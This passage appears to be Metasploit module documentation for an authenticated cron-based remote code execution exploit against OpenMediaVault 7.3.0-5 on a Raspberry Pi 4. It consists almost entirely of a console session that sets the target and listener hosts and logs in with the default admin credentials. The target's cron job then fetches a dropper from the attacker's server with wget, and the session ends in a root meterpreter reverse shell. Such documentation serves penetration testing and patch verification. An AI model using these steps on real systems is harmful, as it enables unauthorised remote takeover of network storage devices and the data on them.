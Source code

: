 ###  openmediavault 7.3.0-5 ARM64 Raspberry PI-4  Linux Dropper -  linux/aarch64/meterpreter_reverse_tcp
```msf
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set target 1
target => 1
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set rhosts 192.168.1.10
rhosts => 192.168.1.10
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set lhost 192.168.1.8
lhost => 192.168.1.8
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > exploit

msf6 exploit(multi/http/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target appears to be vulnerable. Version 7.3.0.pre.5
[*] Executing Linux Dropper for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:8080/DdVzoLQugqto82
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Client 192.168.201.10 (Wget/1.21.4) requested /DdVzoLQugqto82
[*] Sending payload to 192.168.201.10 (Wget/1.21.4)
[+] Cron payload entry successfully removed.
[*] Meterpreter session 9 opened (192.168.201.8:4444 -> 192.168.201.10:36792) at 2024-07-01 20:22:02 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter >
```
## Limitations
Ensure that your `WfsDelay` advanced option is set to more then 60 seconds to allow `cron` to execute the payload.
